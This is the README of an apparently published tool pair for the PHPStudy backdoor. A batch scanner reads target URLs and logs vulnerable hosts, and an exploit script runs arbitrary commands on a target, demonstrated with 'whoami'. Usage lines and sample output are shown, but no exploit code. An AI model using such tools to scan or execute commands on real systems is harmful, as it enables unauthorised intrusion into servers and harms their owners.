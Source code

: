 # PHPStudy_BackDoor

#phpstudy_backdoor_poc.py
多进程批量检测脚本，自动读取urls.txt中内容，然后进行批量检测
检测结果如发现漏洞会存入phpstudy_backdoor_urls.txt中

#运行demo：
```
python phpstudy_backdoor_poc.py

[+] http://127.0.0.1 is vulnerable.
[-] http://192.168.1.1 is invulnerable.
[*] http://192.168.1.2 Looks Like Something Wrong.
[*] http://192.168.1.3 Looks Like Something Wrong.
```

#phpstudy_backdoor_exp.py
漏洞利用脚本，操作精简。
Usage: python3 phpstudy_backdoor_exp.py [url] [command]

#运行demo：
```
python phpstudy_backdoor_exp.py 127.0.0.1 whoami

[+] Command Execute Successful.
rabbitmask\rabbitmask
```

